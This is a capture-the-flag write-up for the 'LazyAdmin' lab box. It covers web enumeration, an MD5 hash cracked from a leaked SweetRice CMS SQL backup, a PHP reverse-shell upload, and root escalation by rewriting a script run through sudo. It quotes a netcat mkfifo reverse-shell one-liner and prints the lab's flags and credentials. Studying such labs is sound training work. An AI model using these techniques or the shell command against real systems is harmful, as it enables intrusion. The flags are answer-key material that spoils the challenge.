# LazyAdmin
starting off with a quick nmap of the box to get a lay of the land

```
nmap -sV -sC 10.10.31.197 -oN nmap.txt
```
nmap show that the following ports are open 

- 22 - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80 - Apache httpd 2.4.18

Next I kick off gobusters with the common web content list from seclists

```
gobuster -u 10.10.31.197 -w ~/tools/SecLists/Discovery/Web-Content/common.txt
```


Checking out the /content directory on the webserver we are greated with a site that is running SweetRice CMS



I kick off another gobuster scan this time of the /content directory and get the following results



while that was running I did some searching for sweetrice cms and see a slew of exploits on exploitdb



going back to my gobuster results a few things jump out at me the /attachments dir, the /as dir and the /inc dir
- /attachments dir yeilded an empty directory. 
- /as gives me a login page (bingo found the admin portal)
- /inc dir how ever gives me a nice list of things to explore.



looking at latest.txt gives me a version number

```
1.5.1
```

We also see a folder called mysql_backup lets check that out while we are here
inside of there we see and sql command file
```
mysql_bakup_20191129023059-1.5.1.sql	
```
Lets downlaod that and store it in our working dir for this box just in case it is useful later on

Perfect now we can start looking at exploits for 1.5.1 to see which may get us access to the sever.

Looking at the code forthe Arbitary file upload it looks like we need a username and password which we currently don't have. Lets take a look at the sqlbackup to see if it has any credentails in it we can use.
From the sql back up we can see a possilbe username of manager
we also have a hashed version of the password (appears to be md5)
```
42f749ade7f9e195bf475f37a44cafcb
```
Doing a search for the hash on crackstation.net reveals the password matching this hash



Using the username and passwrod we uncovers we gain access to the admin portal



Grabbing a copy of the file upload exploit from exploit db we see we need the following to make this work

- host to attack (ip of website)
- username
- password
- file to upload (our rev shell in php as that is what the cms runs on)

I get a copy of the php rev shell from pentest monkeys github

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

now to edit the shell php to point to our machine so we can get the revshell

now we can run the exploit python script to upload our shell



The exploit script did not work for me it just exits and doesn't upload my payload or give me any out put even though by looking at the exploit code it should.

By reading and understanding what the code is attempting do to it is trivial for us to do this on our own. a few points to remember

- by looking at the example the exploit code give we can not use a regular php file (uploading it is rejected) we have to use .php5 extension
- the exploit script uploads your file to the media center section of the admin portal so we should be able to do that manually



from the media center we successfully uploaded our revshell now to run it we know from the exploit code that the files are uploaded to the attchemnt dir under the /content dir so if we navigate to 
```
IPADDRESS/content/attachment
```
we see our shell is there



if we click on that while our netcat listener is running we get our shell
alternatively we can just visit the path directly

```
IPADDRESS/content/attachment/shell.php5
```

The browsewr will appear to hang but if you look at your netcat listen you see you have gained access

doing an quick whoami reveals we are running as www-data

if we do an ls of the /home directory we see one users directory itguy



doing an ls of the itguy directory we get a list of files 



if we cat the user.txt file we get our first flag

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```
lets take a look at a few of the other files he has in his directory incase there is anything useful

the mysql_login.txt reveals the following 

```
rice:randompass
```

the backup.pl script gives us

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
This is interesting.

/etc/copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

checking the permssions of copy.sh we see 


the user owner can read and write to the file the group cant r and pulic can read write and execute meaning we can change this and run it could be useful
runing copy.sh directly does us no good since it runs as www-data 
we need to see if we can run anything as sudo with this account

```
sudo -l
```


we can run the itguys backup.pl script as root with no password, perfect! 
it calls the copy.sh script so lets change it to give us root when ran.

we need to change the copy.sh file that the backup.pl script calls so we get a shell when it is called
since vi is not on this system we can easily do this with the following command
```
echo "sh" > /etc/copy.sh
```
this will overwirte the copy.sh to call sh when ran. Now we need to run the backup.pl script to get our shell

Trying to run
```
sudo /home/itguy/backup.pl
```

we get an error 



this is for 2 reasons one our shell is not fully interactive. and if it was we would be prompted to enter the password for www-data

in order for this to work we have to use perl to call the backup.pl script
just doing sudo perl or sudo /home/itguy/backup.pl will not work 
it will just give us the same error as above since the www-data user can only run
those two commands together with out a password.

*the reason we have to do them together is because there is not comma (,) seperating the commands ins the sudoers file this means they have to be ran together if we had a comma we could just run one or the other as root with no password*

So now that we understand that a little better lets get root!

```
sudo perl /home/itguy/backup.pl
```


we can now get our root flag
```
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```